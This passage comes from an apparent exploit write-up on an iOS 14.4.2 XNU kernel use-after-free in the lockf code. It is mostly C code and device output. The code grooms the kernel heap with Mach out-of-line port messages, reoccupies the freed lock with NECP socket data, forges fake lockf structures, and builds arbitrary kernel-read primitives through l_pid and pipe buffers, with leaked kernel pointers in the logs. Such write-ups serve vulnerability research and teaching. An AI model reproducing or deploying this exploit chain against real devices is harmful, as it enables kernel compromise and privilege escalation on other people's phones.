    message->header.msgh_remote_port = where;
    message->body.msgh_descriptor_count = 1;
    message->descriptor.address = ports;
    message->descriptor.deallocate = false;
    message->descriptor.copy = MACH_MSG_PHYSICAL_COPY;
    message->descriptor.disposition = MACH_MSG_TYPE_COPY_SEND;
    message->descriptor.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    message->descriptor.count = port_cnt;

    kern_return_t kr = mach_msg(
      &message->header,
      MACH_SEND_MSG | MACH_SEND_INTERRUPT | MACH_SEND_NOIMPORTANCE,
      message->header.msgh_size,
      0,
      MACH_PORT_NULL,
      MACH_MSG_TIMEOUT_NONE,
      MACH_PORT_NULL);

    free(message);
    free(ports);

    if (kr) {
        printf("[-] Failed to send OOL message: 0x%x (%s)\n", kr, mach_error_string(kr));
        return KERN_FAILURE;
    }
    return KERN_SUCCESS;
}

int main(void) {
//...
    // create secondary readpipe file port
    mach_port_name_t fileport_readpipe = MACH_PORT_NULL;
    fileport_makeport(pipe_fd_2[0], &fileport_readpipe);
    
		//...
		
    // reallocate it and leak
    spray_default_kalloc_ool_ports_with_dead(reply_port, fileport_readpipe);
    memset(fl, 0, sizeof(struct flock));
    ofd_get_lock(urandom_fd, 0, 0, fl);
    uint64_t readpipe_ipc_port_kptr = fl->l_start;
    printf("[i] Leaked readpipe_ipc_port kptr = 0x%llX\n", readpipe_ipc_port_kptr);
//...
}
```

### 5. Reoccupy the C space with an NECP Payload

Once again, receive the pending OOL message with `mach_msg` to free the allocation.

```c
    // stage 5.
    // Free OOL #2 directly
    mach_msg(&receive_message.header, MACH_RCV_MSG | MACH_RCV_INTERRUPT, 0, 0, reply_port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
```

Use the previously opened socket fd to reoccupy 0x60 bytes with an NECP DOMAIN. 

```c
/*
 * Install a 0x5f-byte NECP domain. XNU appends its NUL terminator, so the
 * persistent domain allocation is 0x60 bytes. OOL #3 is freed by main().
 */
int allocate_necp_domain(
    int necp_socket,
    const uint8_t payload[NECP_DOMAIN_PAYLOAD_SIZE])
{
    struct necp_domain_option option = {0};

    if (payload == NULL ||
        payload[NECP_DOMAIN_PAYLOAD_SIZE - 1] != 0) {
        errno = EINVAL;
        return -1;
    }

    option.type = NECP_TLV_ATTRIBUTE_DOMAIN;
    option.length = NECP_DOMAIN_STRING_LENGTH;
    memcpy(option.value, payload, NECP_DOMAIN_STRING_LENGTH);

    return setsockopt(
        necp_socket,
        SOL_SOCKET,
        SO_NECP_ATTRIBUTES,
        &option,
        (socklen_t)sizeof(option));
}

int main(void) {
// ...
    // prepare necp payload
    /*
     * Resulting 0x60-byte domain contents:
     *
     *   +0x00  0x2222222222221111
     *   +0x08  "33333333"
     *   +0x10  "DDDDDDDD"
     *   +0x18  "UUUUUUUU"
     *   +0x20  "ffffffff"
     *   +0x28  "wwwwwwww"
     *   +0x30..+0x5f  zero
     */
    uint8_t necp_payload[NECP_DOMAIN_PAYLOAD_SIZE] = {0};
    static const uint64_t first_necp_words[] = {
        0x2222222222221111ULL,
        0x3333333333333333ULL,
        0x4444444444444444ULL,
        0x5555555555555555ULL,
        0x6666666666666666ULL,
        0x7777777777777777ULL,
    };
    memcpy(necp_payload, first_necp_words, sizeof(first_necp_words));

    // Reoccupy the released 0x60 slot with the persistent NECP domain.
    if (allocate_necp_domain(socket_fd[0], necp_payload) != 0) {
        printf("[-] failed to allocate NECP domain: %s(%d)\n", strerror(errno), errno);
        return -1;
    }
// ...
}
```

 The C kernel space now consists of `necp_payload` data.



Following the functions in the kernel,

`allocate_necp_payload`
→ `setsockopt`
→ `sosetoptlock`
→ `necp_set_socket_attributes`
→ `necp_set_socket_attribute`

`necp_set_socket_attributes()` searches the input buffer for two TLVs: `NECP_TLV_ATTRIBUTE_DOMAIN(7)` and `NECP_TLV_ATTRIBUTE_ACCOUNT(8)`. When type `NECP_TLV_ATTRIBUTE_DOMAIN(7)` is found, a size of 0x60 is allocated in the kernel.

`necp_set_socket_attributes` allocates the 0x60 size from the `default.kalloc.96` zone.



Let's check whether the former C space was actually reoccupied successfully.

```c
#if ENABLE_HELPER 
    printf("[STAGE 5] did allocated necp domain well?\n");
    uint64_t fileglob = get_fileglob_by_fd(socket_fd[0]);   
    uint64_t socket_kaddr = tfp0_kread64(fileglob + 0x38);        // fileglob::fg_data  // (lldb) p/x offsetof(fileglob, fg_data)
    uint64_t inpcb_kaddr = tfp0_kread64(socket_kaddr + 0x10);    // socket::so_pcb      // (lldb) p/x offsetof(socket, so_pcb)
    uint64_t domain_kaddr = tfp0_kread64(inpcb_kaddr + 0x168);    // inpcb::inp_domain  // (lldb) p/x offsetof(inpcb, inp_necp_attributes.inp_domain)
    printf("[STAGE 5] domain_kaddr = 0x%llX\n", domain_kaddr);
    getchar();
#endif
```

Execution result:

```c
iPhone-8--1442:~ root# pendulum
[i] offsets selected for iOS 14.4.2
tfp0: 0x1103
tfp0_get_kbase ret: 0, tfp0_kbase: 0xfffffff0167b4000, tfp0_kslide: 0xf7b0000
[i] opened urandom fd: 6
[STAGE1] urandom_vnode = 0xFFFFFFE19CD4AAA0, urandom_fileglob = 0xFFFFFFE19F63FA20
[STAGE1] v_lockf(A) = 0xFFFFFFE4CDF9C900
[STAGE1] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1] v_lockf(A)->lf_head = 0xFFFFFFE19CD4AB68, lf_next = 0x0
========================
[STAGE1.1] v_lockf(A) = 0xFFFFFFE4CDF9C900
[STAGE1.1] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1.1] v_lockf(A)->lf_head = 0xFFFFFFE19CD4AB68, lf_next = 0xFFFFFFE4CDF7CA20
[STAGE1.1] v_lockf(B) = 0xFFFFFFE4CDF7CA20
[STAGE1.1] v_lockf(B)->lf_start = 9223372036854775807, lf_end = -1
[STAGE1.1] v_lockf(B)->lf_head = 0xFFFFFFE19CD4AB68, lf_next = 0x0
========================
[STAGE1.2] v_lockf(A) = 0xFFFFFFE4CDF9C900
[STAGE1.2] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1.2] v_lockf(A)->lf_head = 0xFFFFFFE19CD4AB68, lf_next = 0xFFFFFFE4CDF7CA20
[STAGE1.2] v_lockf(B) = 0xFFFFFFE4CDF7CA20
[STAGE1.2] v_lockf(B)->lf_start = -9223372036854775808, lf_end = -1
[STAGE1.2] v_lockf(B)->lf_head = 0xFFFFFFE19CD4AB68, lf_next = 0x0
========================
[STAGE1.3] v_lockf(A) = 0xFFFFFFE4CDF9C900
[STAGE1.3] v_lockf(A)->lf_start = 10, lf_end = 14
[STAGE1.3] v_lockf(A)->lf_head = 0xFFFFFFE19CD4AB68, lf_next = 0xFFFFFFE4CDFD0D80
[STAGE1.3] v_lockf(DANGLING C) = 0xFFFFFFE4CDFD0D80
[STAGE1.3] Since C is freed, however, the contents of C's memory are no longer guaranteed, leaving a dangling pointer!
[0xffffffe4cdfd0d80+0x000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cdfd0d80+0x010] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cdfd0d80+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cdfd0d80+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cdfd0d80+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cdfd0d80+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
========================
[STAGE2] Reoccupied with OOL ports allocation kaddr (KHEAP_DEFAULT/kalloc.96) = 0xFFFFFFE4CDFD0D80
[STAGE2] tfp0_find_port(fileport_name) = 0xFFFFFFE19DFB09D8
[i] Leaked fileglob kptr = 0xFFFFFFE19F63FA20
[i] thread-message channel: 32 ports, qlimit=0x400, capacity=0x8000
...
[i] Leaked readpipe_ipc_port kptr = 0xFFFFFFE19E755A40
[STAGE 5] did allocated necp domain well?
[STAGE 5] domain_kaddr = 0xFFFFFFE4CDFD0D80
```

### 6. Use socket0/socket1 to control fake lock C/B0

The code is as follows. Let's examine it one step at a time.

```c
int prepare_socket_lockf_pair(int lock_fd, 
    struct minimal_thread_message_channel *channel, 
    int socket0, int socket1, 
    uint64_t initial_read_address, uint64_t *socket1_domain_kaddr_out)
{
    off_t lock_start = LOCK_PROBE_INITIAL_START;
    off_t lock_length = LOCK_PROBE_INITIAL_LENGTH;
    uint8_t observed_payload[NECP_DOMAIN_PAYLOAD_SIZE] = {0};
    uint32_t observed_length = 0;
    uint64_t socket1_domain_kaddr = 0;

    if (set_posix_lock(lock_fd, F_RDLCK, lock_start, lock_length) != 0) {
        return -1;
    }

    while (1) {
        if (read_necp_domain(socket0, observed_payload, &observed_length) != 0) {
            return -1;
        }

        /* Initial strlen is 48.  A nonzero 8-byte C->lf_next makes it 56. */
        if (observed_length >= LOCK_PROBE_LINK_OFFSET + sizeof(uint64_t)) {             // TRIGGERED
            memcpy(&socket1_domain_kaddr, observed_payload + LOCK_PROBE_LINK_OFFSET, sizeof(socket1_domain_kaddr));
            break;
        } 

        --lock_start;
        lock_length += 2;
        if (set_posix_lock(lock_fd, F_RDLCK, lock_start, lock_length) != 0) {
            return -1;
        }

        if (send_one_thread_channel_message(channel) != KERN_SUCCESS) {
            errno = EIO;
            return -1;
        }

        /* Match the recovered loop's lower bound; it does not guess B. */
        if (lock_start == LOCK_PROBE_LAST_START) {
            errno = EFAULT;
            return -1;
        }
    }

    if (!looks_like_kernel_pointer(socket1_domain_kaddr)) {
        errno = EFAULT;
        return -1;
    }

    /* Free B, but deliberately do not pin it with another OOL allocation. */
    if (set_posix_lock(lock_fd, F_RDLCK, lock_start - 1, lock_length + 2) != 0) {
        return -1;
    }

    if (install_socket_lockf_pair(socket0, socket1, socket1_domain_kaddr, initial_read_address) != 0) {
        return -1;
    }

    *socket1_domain_kaddr_out = socket1_domain_kaddr;
    return 0;
}

int main(void) {
//...
// control fake lockf via socket0/socket1
    uint64_t socket1_domain_kaddr = 0;
    const uint64_t first_read_address = readpipe_ipc_port_kptr + XNU7195_PROC_PID_OFFSET;

    if (prepare_socket_lockf_pair(
            urandom_fd,
            &thread_channel,
            socket_fd[0],
            socket_fd[1],
            first_read_address,
            &socket1_domain_kaddr) != 0) {
        printf("[-] failed to prepare socket fake-lockf pair: %s(%d)\n", strerror(errno), errno);
        return -1;
    }
    printf("[i] socket1 DOMAIN kernel address = 0x%llX\n", socket1_domain_kaddr);
//...
}
```

In `prepare_socket_lockf_pair`, when `set_posix_lock` is first called, a new B0 lock is created as shown below. 

```c
/* These grooming locks are POSIX F_SETLK locks, not F_OFD_SETLK locks. */
int set_posix_lock(int fd, short type, off_t start, off_t length)
{
    struct flock fl = {
        .l_start = start,   
        .l_len = length, 
        .l_pid = 0,
        .l_type = type, 
        .l_whence = SEEK_SET,
    };

    return fcntl(fd, F_SETLK, &fl);
}

//...

if (set_posix_lock(lock_fd, F_RDLCK, lock_start, lock_length) != 0) {
    return -1;
}
```

Before the call, the lock list structure was as follows, but

`v_lockf -> A[10,14] -> C(socket0 DOMAIN) -> NULL`

After the call, it changes as shown below. An address value pointing to the new B0 lock object is written to the lf_next field of fake lockf C. Both lf_start and lf_end of the B0 lock object are 100, and lf_next is NULL.

`v_lockf A[10,14] -> C(socket0 DOMAIN) -> new B0[100, 100] -> NULL`


In `prepare_socket_lockf_pair`, let's examine the situation in the `while(1)` loop when `read_necp_domain` is called for the first time.

```c
int read_necp_domain(
    int necp_socket,
    uint8_t payload[NECP_DOMAIN_PAYLOAD_SIZE],
    uint32_t *domain_length)
{
    uint8_t option[0x103] = {0};
    socklen_t option_length = (socklen_t)sizeof(option);
    uint32_t length = 0;

    if (payload == NULL || domain_length == NULL) {
        errno = EINVAL;
        return -1;
    }

    if (getsockopt(
            necp_socket,
            SOL_SOCKET,
            SO_NECP_ATTRIBUTES,
            option,
            &option_length) != 0) {
        return -1;
    }

    if (option_length < 5 || option[0] != NECP_TLV_ATTRIBUTE_DOMAIN) {
        errno = EPROTO;
        return -1;
    }

    memcpy(&length, option + 1, sizeof(length));
    if (length == 0 ||
        length > NECP_DOMAIN_PAYLOAD_SIZE ||
        option_length < (socklen_t)(5 + length)) {
        errno = EPROTO;
        return -1;
    }

    memset(payload, 0, NECP_DOMAIN_PAYLOAD_SIZE);
    memcpy(payload, option + 5, length);
    *domain_length = length;
    return 0;
}

int prepare_socket_lockf_pair(int lock_fd, 
    struct minimal_thread_message_channel *channel, 
    int socket0, int socket1, 
    uint64_t initial_read_address, uint64_t *socket1_domain_kaddr_out)
{
    //...

    while (1) {
        if (read_necp_domain(socket0, observed_payload, &observed_length) != 0) {
            return -1;
        }

        /* Initial strlen is 48.  A nonzero 8-byte C->lf_next makes it 56. */
        if (observed_length >= LOCK_PROBE_LINK_OFFSET + sizeof(uint64_t)) {             // TRIGGERED
            memcpy(&socket1_domain_kaddr, observed_payload + LOCK_PROBE_LINK_OFFSET, sizeof(socket1_domain_kaddr));
            break;
        } 
```

The value returned by `read_necp_domain` is determined in the kernel's `necp_get_socket_attributes` by its call to `strlen()`, and there are 2 cases as follows.

#### 1. The return value is 0x37 or less (the case where the lf_next pointer address of fake lockf C cannot be leaked completely)

This is the case where, within the `lf_next` pointer address value in fake lock C, a 0x00 NULL-byte appears. 



In this case, the complete lockf B0 address cannot be obtained.

After this, the code calls the `set_posix_lock` and `send_one_thread_channel_message` functions.

`set_posix_lock` creates a new `B1[99, 101]` lockf. 

Because B1 completely contains the existing `B0[100,100]`, the resulting lock list
becomes `A[10,14] -> C[socket0 DOMAIN, fake lockf] -> new B1[99,101] -> NULL`.

To make the freed B0 become pinned by an OOL array, `send_one_thread_channel_message` is performed. It appears to be performed to prevent it from being allocated again at an address containing a NULL-byte.

```c
int set_posix_lock(int fd, short type, off_t start, off_t length)
{
    struct flock fl = {
        .l_start = start,   
        .l_len = length, 
        .l_pid = 0,
        .l_type = type, 
        .l_whence = SEEK_SET,
    };

    return fcntl(fd, F_SETLK, &fl);
}

/*
 * Queue one 12-entry OOL-port descriptor and leave it pending.  On arm64 the
 * kernel-side ipc_object_t array is 12 * 8 == 0x60 bytes, so it pins the
 * lockf slot freed by the preceding widening POSIX lock.
 */
kern_return_t send_one_thread_channel_message(
    struct minimal_thread_message_channel *channel)
{
    struct default_msg message;

    if (channel == NULL || channel->receive_port_count == 0) {
        return KERN_INVALID_ARGUMENT;
    }

    message = channel->ool_template;
    message.header.msgh_remote_port = channel->receive_ports[0];
    message.header.msgh_local_port = MACH_PORT_NULL;
    message.header.msgh_voucher_port = MACH_PORT_NULL;

    return mach_msg(
        &message.header,
        MACH_SEND_MSG | MACH_SEND_NOIMPORTANCE,
        message.header.msgh_size,
        0,
        MACH_PORT_NULL,
        MACH_MSG_TIMEOUT_NONE,
        MACH_PORT_NULL);
}

int prepare_socket_lockf_pair(int lock_fd, 
    struct minimal_thread_message_channel *channel, 
    int socket0, int socket1, 
    uint64_t initial_read_address, uint64_t *socket1_domain_kaddr_out)
{
// ...
        --lock_start;
        lock_length += 2;
        if (set_posix_lock(lock_fd, F_RDLCK, lock_start, lock_length) != 0) {
            return -1;
        }

        if (send_one_thread_channel_message(channel) != KERN_SUCCESS) {
            errno = EIO;
            return -1;
        }

        /* Match the recovered loop's lower bound; it does not guess B. */
        if (lock_start == LOCK_PROBE_LAST_START) {
            errno = EFAULT;
            return -1;
        }
// ...
{
```

Actual inspection shows that the just-freed lock B0 is pinned by an OOL array, 
and a NULL-byte no longer exists in the lf_next pointer value of lock C.



#### 2. The return value is 0x38 (the case where the lf_next pointer address of fake lockf C can be leaked completely)

With some luck, the `lf_next` pointer address value in fake lock C has no NULL-byte from the beginning, 
so the lockf B0 address may be leaked. 



Now, in `prepare_socket_lockf_pair`, let's examine the code after leaving the `while(1)` loop.
It checks whether the leaked socket1_domain_kaddr, that is, the flock address of B, was leaked correctly.

It decreases `lock_start`, increases `lock_length`, and calls `set_posix_lock` to create a new lock.

```c
    if (!looks_like_kernel_pointer(socket1_domain_kaddr)) {
        errno = EFAULT;
        return -1;
    }

    /* Free B, but deliberately do not pin it with another OOL allocation. */
    if (set_posix_lock(lock_fd, F_RDLCK, lock_start - 1, lock_length + 2) != 0) {
        return -1;
    }
```

We will call the new lock “D.” As a result of execution, lock B0 is freed.

The lock list
becomes `A[10,14] -> C[socket0 DOMAIN, fake lockf] -> new D[99,101] -> NULL`.



Next, use socket0 and socket1 to control lockf C and lockf B0 arbitrarily.

```c
int install_socket_lockf_pair(int socket0, int socket1, uint64_t socket1_domain_kaddr, uint64_t initial_read_address)
{
    uint8_t socket0_payload[NECP_DOMAIN_PAYLOAD_SIZE] = {0};
    uint8_t socket1_payload[NECP_DOMAIN_PAYLOAD_SIZE] = {0};
    uint64_t marker = 0x2222222222221111ULL;
    uint64_t vnode_value = socket1_domain_kaddr + 8;
    uint64_t next_value = socket1_domain_kaddr - 8;

    /* The final widening lock just freed this slot; socket1 claims it first. */
    make_socket1_lockf_payload(socket1_payload, initial_read_address);
    if (allocate_necp_domain(socket1, socket1_payload) != 0) {
        return -1;
    }

    /*
     * Rebuild dangling C on socket0.  C itself starts just after the GETLK
     * query, while C->lf_next points eight bytes before socket1's allocation.
     */
    memcpy(socket0_payload + 0x00, &marker, sizeof(marker));
    memcpy(socket0_payload + 0x08, "33333333DDDDDDDDUUUUUUUUffffffff", 32);
    memcpy(socket0_payload + 0x28, &vnode_value, sizeof(vnode_value));
    memcpy(socket0_payload + 0x30, &next_value, sizeof(next_value));

    if (clear_necp_domain(socket0) != 0) {
        return -1;
    }

    return allocate_necp_domain(socket0, socket0_payload);
}

...

    if (install_socket_lockf_pair(socket0, socket1, socket1_domain_kaddr, initial_read_address) != 0) {
        return -1;
    }

    *socket1_domain_kaddr_out = socket1_domain_kaddr;
    return 0;
}
```

At the end of fake lockf C, values are overwritten with socket1_domain_kaddr+8 and socket1_domain_kaddr-8(lockf B0+8, lockf B0-8), respectively.

At the end of fake lockf B0, the `const uint64_t fake_proc = read_address - XNU7195_PROC_PID_OFFSET;` code overwrites it with `fake_proc`. `fake_proc` is used to obtain the value read from `readpipe_ipc_port_kptr`.

```c
const uint64_t first_read_address = readpipe_ipc_port_kptr + XNU7195_PROC_PID_OFFSET;
const uint64_t fake_proc = first_read_address - XNU7195_PROC_PID_OFFSET;
```

lockf D becomes isolated because lockf C no longer references lockf D.



### 7. First attempt at an arbitrary-address kernel read



Control socket1 to prepare a payload containing `readpipe_ipc_port_kptr+0x68`, the address to be read.

`ofd_get_lock` can read a 32-bit kernel address, and it reads the `readpipe_ipc_port_kptr+0x68` address.

```c
...
    uint32_t readpipe_fileglob_low32 = 0;
    if (kernel_read32_via_proc_pid(urandom_fd, socket_fd[1], first_read_address, &readpipe_fileglob_low32) != 0) {
        printf("[-] kernel_read32_via_proc_pid failed: %s(%d)\n", strerror(errno), errno);
        return -1;
    }
    
...

/* Stage 6: retarget socket1 and return *(uint32_t *)read_address via l_pid. */
int kernel_read32_via_proc_pid(int lock_fd, int socket1, uint64_t read_address, uint32_t *value_out)
{
    uint8_t socket1_payload[NECP_DOMAIN_PAYLOAD_SIZE] = {0};
    struct flock fl;

    if (value_out == NULL || read_address < XNU7195_PROC_PID_OFFSET) {
        errno = EINVAL;
        return -1;
    }

    make_socket1_lockf_payload(socket1_payload, read_address);

    /* Free/reclaim the same persistent 0x60 slot for every read. */
    if (clear_necp_domain(socket1) != 0 ||
        allocate_necp_domain(socket1, socket1_payload) != 0) {
        return -1;
    }

    if (ofd_get_lock(lock_fd, LOCK_PROBE_QUERY_START, LOCK_PROBE_QUERY_LENGTH, &fl) != 0) {
        return -1;
    }

    if (fl.l_type == F_UNLCK) {
        errno = ENOENT;
        return -1;
    }

    /* XNU lf_getlock(): fl.l_pid = proc_pid(block->lf_owner). */
    *value_out = (uint32_t)fl.l_pid;
    return 0;
}
```

When ofd_get_lock is performed, the range is `LOCK_PROBE_QUERY_START`, 0x3333333333333300, and `LOCK_PROBE_QUERY_LENGTH`, 0x5, so it references the next lock of fake lockf C.

In that next lock, in the data controlled with socket1, at +0x58, the `readpipe_pipe_ipc_kptr` address occupies 8 bytes.

Finally, from the location obtained by adding +0x68 to that address, it reads a value of 32 bits.

The read value is combined with the upper 32-bit value to obtain  `readpipe_fileglob_kptr`, which means the address of the readpipe's fileglob structure.



### 8. Obtain the pipe_buffer.buffer address of the secondary read pipe

So far, converted the read file descriptor of the second pipe, `pipe_fd_2[0]`, into a fileport by calling `fileport_makeport`. We leaked the kernel address of the ipc port pointer from that fileport, then once more read the kernel address of the ipc port pointer (`readpipe_ipc_port_kptr`) plus +0x68 to obtain the fileglob pointer address (`readpipe_fileglob_kptr`).

After obtaining the fileglob pointer address, can obtain the address of the buffer containing the pipe data by sequentially reading the locations with the structure offsets added, as shown below.

```c
fileglob+0x38 -> struct pipe; pipe+0x10 -> pipe_buffer.buffer.
```

```c
(lldb) type lookup fileglob
struct fileglob {
    struct  {
        fileglob *le_next;
        fileglob **le_prev;
    };
    fileglob::(unnamed struct) f_msglist;
    uint32_t fg_flag;
    os_ref_atomic_t fg_count;
    uint32_t fg_msgcount;
    int32_t fg_lflags;
    kauth_cred_t fg_cred;
    const fileops *fg_ops;
    off_t fg_offset;
    void *fg_data;
    void *fg_vn_data;
    lck_mtx_t fg_lock;
    label *fg_label;
}
(lldb) p/x offsetof(fileglob, fg_data)
(unsigned long) 0x0000000000000038
(lldb) type lookup pipe
struct pipe {
    pipebuf pipe_buffer;
    selinfo pipe_sel;
    pid_t pipe_pgid;
    pipe *pipe_peer;
    u_int pipe_state;
    int pipe_busy;
    lck_mtx_t *pipe_mtxp;
    timespec st_atimespec;
    timespec st_mtimespec;
    timespec st_ctimespec;
    label *pipe_label;

(lldb) type lookup pipebuf
struct pipebuf {
    u_int cnt;
    u_int in;
    u_int out;
    u_int size;
    __ptrauth(2,1,43904) caddr_t buffer;
}
(lldb) p/x offsetof(pipe, pipe_buffer.buffer)
(unsigned long) 0x0000000000000010
```

The code is as follows.

The `kernel_read_pointer_via_socket` function uses the previously examined `kernel_read32_via_proc_pid` function to read a 32-bit value twice and combine them into a complete 64-bit value.

```c
int kernel_read_pointer_via_socket(
    int lock_fd,
    int socket1,
    uint64_t read_address,
    uint64_t upper32_hint,
    uint64_t *value_out)
{
    uint32_t low = 0;
    uint32_t high = 0;
    uint64_t value;

    if (value_out == NULL) {
        errno = EINVAL;
        return -1;
    }

    if (kernel_read32_via_proc_pid(
            lock_fd, socket1, read_address, &low) != 0) {
        return -1;
    }

    if ((upper32_hint & 0xFFFFFFFF00000000ULL) != 0) {
        *value_out =
            (upper32_hint & 0xFFFFFFFF00000000ULL) | low;
        return 0;
    }

    if (kernel_read32_via_proc_pid(
            lock_fd, socket1, read_address + 4, &high) != 0) {
        return -1;
    }

    value = low | ((uint64_t)high << 32);
    *value_out = normalize_a12_xnu7195_pointer(value);
    return 0;
}

...
// 8. Find the secondary pipe backing address
    uint64_t secondary_pipe_object_kptr = 0;
    uint64_t secondary_pipe_backing_kptr = 0;

    /* fileglob+0x38 -> struct pipe; pipe+0x10 -> pipe_buffer.buffer. */
    if (kernel_read_pointer_via_socket(
            urandom_fd,
            socket_fd[1],
            readpipe_fileglob_kptr + XNU7195_FILEGLOB_DATA_OFFSET,
            readpipe_fileglob_kptr,
            &secondary_pipe_object_kptr) != 0) {
        printf("[-] failed to find secondary pipe object: %s(%d)\n",
            strerror(errno), errno);
        return -1;
    }
    if (!looks_like_kernel_pointer(secondary_pipe_object_kptr)) {
        printf("[-] invalid secondary pipe object: 0x%llX\n",
            secondary_pipe_object_kptr);
        return -1;
    }

    if (kernel_read_pointer_via_socket(
            urandom_fd,
            socket_fd[1],
            secondary_pipe_object_kptr + XNU7195_PIPE_BUFFER_OFFSET,
            0,
            &secondary_pipe_backing_kptr) != 0) {
        printf("[-] failed to find secondary pipe backing: %s(%d)\n",
            strerror(errno), errno);
        return -1;
    }
    if (!looks_like_kernel_pointer(secondary_pipe_backing_kptr)) {
        printf("[-] invalid secondary pipe backing: 0x%llX\n",
            secondary_pipe_backing_kptr);
        return -1;
    }

    printf("[i] secondary pipe object = 0x%llX\n",
        secondary_pipe_object_kptr);
    printf("[i] secondary pipe backing = 0x%llX\n",
        secondary_pipe_backing_kptr);
        
...
```

### 9. Control socket0 to link the lf_next of fake lockf C to the secondary readpipe buffer address

After obtaining the secondary pipe backing(secondary read pipe’s pipe_buffer.buffer) value, control socket0 to recreate fake lockf C containing that value, with lf_start=200 and lf_end=204.

```c

/* Make dangling socket0 lock C=[200,204] point at the pipe backing. */
int install_socket0_pipe_link(int socket0, uint64_t secondary_pipe_backing)
{
    uint64_t payload[NECP_DOMAIN_PAYLOAD_SIZE / sizeof(uint64_t)] = {0};

    payload[1] = 200;
    payload[2] = 204;
    payload[6] = secondary_pipe_backing;

    if (clear_necp_domain(socket0) != 0) {
        return -1;
    }

    return allocate_necp_domain(socket0, (const uint8_t *)payload);
}

...
if (install_socket0_pipe_link(
            socket_fd[0], secondary_pipe_backing_kptr) != 0) {
        printf("[-] failed to link socket0 to pipe backing: %s(%d)\n",
            strerror(errno), errno);
        return -1;
    }
```

As a result of execution, it is arranged as shown in the following image.

The `lf_next` of fake lockf C now points to the `pipe_buffer.buffer` of the secondary readpipe.



### 10. Control pipe data to perform stable kernel reads (`kernel_read_pointer_via_pipe_backing`) while finding selfproc and fileproc

Next, let's examine in detail the process performed in `find_current_proc_and_control_fileproc` to find the fileproc and selfproc addresses.

```c
    // 8. Find the current proc and control fileproc
    uint64_t current_proc_kptr = 0;
    uint64_t control_fileproc_kptr = 0;

    if (find_current_proc_and_control_fileproc(
            urandom_fd,
            pipe_fd_2,
            socket_fd[2],
            &current_proc_kptr,
            &control_fileproc_kptr) != 0) {
        printf("[-] failed to find current proc/control fileproc: %s(%d)\n",
            strerror(errno), errno);
        return -1;
    }
```

The `lf_next` of fake lockf C points to the secondary readpipe buffer, and at the same time the readpipe buffer becomes a fake lockf. Perform a pipe write to set that fake lockf to `lf_start=300` and `lf_end=304`.

```c
int find_current_proc_and_control_fileproc(
    int lock_fd,
    const int pipe_fds[2],
    int control_fd,
    uint64_t *current_proc_out,
    uint64_t *control_fileproc_out)
{
    uint64_t insertion_payload[NECP_DOMAIN_PAYLOAD_SIZE / sizeof(uint64_t)] = {0};
    uint8_t saved_payload[NECP_DOMAIN_PAYLOAD_SIZE];
    uint8_t cleaned_payload[NECP_DOMAIN_PAYLOAD_SIZE];
    uint64_t inserted_lock = 0;
    uint64_t current_proc = 0;
    uint64_t filedesc = 0;
    uint64_t fd_ofiles = 0;
    uint64_t control_fileproc = 0;
    int discovery_errno = 0;

    if (pipe_fds == NULL || control_fd < 0 ||
        current_proc_out == NULL || control_fileproc_out == NULL) {
        errno = EINVAL;
        return -1;
    }

    insertion_payload[1] = 300;
    insertion_payload[2] = 304;

    /* Leave fake [300,304] queued while F_SETLK appends the real lock. */
    if (write_exact_fd(pipe_fds[1], insertion_payload, sizeof(insertion_payload)) != 0 )
        return -1;
#if ENABLE_HELPER
    printf("[%s:%d] pipe write occurred\n", __FUNCTION__, __LINE__);
    getchar();
#endif
```

The kernel dump result is shown below. We will call the lockf made from the pipe buffer “fake lockf E.”

As shown, fake lockf E is set to `lf_start=300` and `lf_end=304`.



Next, create one more lockf that the `lf_next` of fake lockf E points to.

```c
#define PIPE_DISCOVERY_LOCK_START       ((off_t)400)
#define PIPE_DISCOVERY_LOCK_LENGTH      ((off_t)1)

    if (set_posix_lock(lock_fd, F_RDLCK, PIPE_DISCOVERY_LOCK_START, PIPE_DISCOVERY_LOCK_LENGTH) != 0)
        return -1;
#if ENABLE_HELPER
    printf("[%s:%d] set_posix_lock occurred\n", __FUNCTION__, __LINE__);
    getchar();
#endif
```

In the kernel dump result, the `lf_next` of fake lockf E points to the newly created lockf. 

It has `lf_start=400` and `lf_end`=400, and we will call it “lockf F.”



Then leak the “lockf F” address, which is the lf_next pointer address written at offset +0x30 in fake lockf C..

Assign the leaked value to `insert_lock`, add +0x18(`XNU7195_LOCKF_ID_OFFSET`) to it, and read the resulting address again with `kernel_read_pointer_via_pipe_backing`.

```c
#define XNU7195_LOCKF_ID_OFFSET         0x18ULL
...
    if (read_exact_fd(pipe_fds[0], saved_payload, sizeof(saved_payload)) != 0)
        return -1;
#if ENABLE_HELPER
    printf("[%s:%d] pipe read occurred\n", __FUNCTION__, __LINE__);
    getchar();
#endif

    memcpy(&inserted_lock, saved_payload + 0x30, sizeof(inserted_lock));
    if (!looks_like_kernel_pointer(inserted_lock)) {
        discovery_errno = EFAULT;
    } else if (kernel_read_pointer_via_pipe_backing(
            lock_fd,
            pipe_fds,
            inserted_lock + XNU7195_LOCKF_ID_OFFSET,
            &current_proc) != 0) {
        discovery_errno = errno;
    } else if (!looks_like_kernel_pointer(current_proc)) {
        discovery_errno = EFAULT;
    }
```

`kernel_read_pointer_via_pipe_backing` takes the values read by the `kernel_read32_via_pipe_backing` function and combines their 32-bit upper/lower parts to produce a complete 64-bit value.

```c
int kernel_read_pointer_via_pipe_backing(int lock_fd, const int pipe_fds[2], uint64_t read_address, uint64_t *value_out)
{
    uint32_t low = 0;
    uint32_t high = 0;
    uint64_t value;

    if (value_out == NULL) {
        errno = EINVAL;
        return -1;
    }

    if (kernel_read32_via_pipe_backing(lock_fd, pipe_fds, read_address, &low) != 0
        || kernel_read32_via_pipe_backing(lock_fd, pipe_fds, read_address + 4, &high) != 0) {
        return -1;
    }

    value = low | ((uint64_t)high << 32);
    *value_out = normalize_a12_xnu7195_pointer(value);
    return 0;
}
